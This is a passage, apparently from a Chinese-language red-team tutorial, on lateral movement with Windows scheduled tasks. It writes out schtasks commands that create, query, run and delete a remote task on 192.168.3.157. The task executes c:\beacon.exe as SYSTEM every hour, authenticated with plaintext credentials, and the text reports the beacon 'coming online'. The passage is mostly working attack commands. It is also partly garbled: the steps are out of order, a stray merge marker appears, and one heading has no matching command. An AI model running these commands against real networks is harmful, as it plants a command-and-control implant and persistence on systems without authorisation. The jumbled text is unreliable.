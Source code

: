 删除该 test 计划任务

```plain
schtasks /delete /s 192.168.3.157 /tn "test" /f /U micle -P admin
```

[![](assets/1710899837-d528a450e75c8b7c82bde1d403db4f5f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240308135141-efdb048a-dd0f-1.png)

**sc 注册服务**

```plain
=======
```bash
schtasks /create /s 192.168.3.157 /tn test /sc HOURLY /mo 1 /tr c:\beacon.exe /ru system /f /U micle /P admin
```

[![](assets/1710211848-053151f79c61876b3190705ec81c378d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240308135131-ea0083f0-dd0f-1.png)

查询该 test 计划任务

```bash
schtasks /query /s 192.168.3.157 /U micle -P admin | findstr test
```

[![](assets/1710211848-9b681e15286afdeeff82caad1e0c430e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240308135126-e700c3fe-dd0f-1.png)

启动 test 计划任务，成功上线

```bash
schtasks /run /s 192.168.3.157 /i /tn "test" /U micle -P admin
```

[![](assets/1710211848-08bbab607eedb04ab916a032455baf68.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240308135120-e3825dfa-dd0f-1.png)
